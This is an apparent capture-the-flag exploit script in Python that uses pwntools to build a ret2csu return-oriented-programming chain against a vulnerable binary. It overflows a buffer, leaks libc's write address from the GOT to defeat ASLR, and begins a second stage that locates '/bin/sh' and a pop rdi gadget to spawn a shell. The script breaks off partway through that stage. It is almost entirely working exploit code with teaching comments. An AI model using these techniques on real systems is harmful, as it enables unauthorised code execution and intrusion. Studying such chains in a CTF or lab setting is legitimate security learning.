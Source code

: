 ```python
     # rbx, which is then multiplied by 8 
     # and added to r15 in the call as offset
     # So we just set it to 0
    payload += p64(0x0)

    # rbx has to be 0 and 1 less of rbp 
    # (look at the add, cmp, jnz after gadget 2)
    # So we set rbp to 1
    payload += p64(0x1)

    # r12, which is then moved to edi by gadget 2.
    # So I this might be a problem sometimes,
    # We're only setting 32 bits for the first parameter.
    payload += p64(edi)

    # r13, which is then moved to rsi by gadget 2.
    payload += p64(rsi)

    # r14, which is then moved to rdx by gadget 2.
    payload += p64(rdx)

    # r15, which is then dereferenced and used as function pointer to call.
    # So it has to be a pointer to a function pointer.
    payload += p64(callfuncptr)

    # Now we are finally jumping to the second gadget.
    payload += p64(gadget2)

    # After the call, we'll go back to gadget1, with all the pops.
    # We have to take these into account if we do not want to 
    # mess up our stack.
    payload += p64(0)   # This is for the "add rsp, 8"

    # The pops
    payload += p64(rbx_after)
    payload += p64(rbp_after)
    payload += p64(r12_after)
    payload += p64(r13_after)
    payload += p64(r14_after)
    payload += p64(r15_after)

    # Finish the ret2csu, returning to wherever we want.
    payload += p64(retfunc)

    return payload

def ret2csu_exploit():
    ret2csu_payload = ret2csu(exe.got['write'], 1, exe.got['write'], 8, exe.sym['main'], elf=exe)

    # First Stage
    p.sendlineafter('name: ', b'a'*0x48 + ret2csu_payload)
    write_leak = u64(p.recv(6) + b'\x00\x00')
    libc.address = write_leak - libc.sym['__write']
    log.info(f'libc write: {hex(write_leak)}')
    log.info(f'libc: {hex(libc.address)}')

    # Second Stage
    pop_rdi = 0x4011d3
    ret = 0x4011d3+1
    binsh = next(libc.search(b'/bin/sh'))

    # You may have to remove the ret after binsh, it depends on the machine.
    # This is so that it works on the challenge server.
```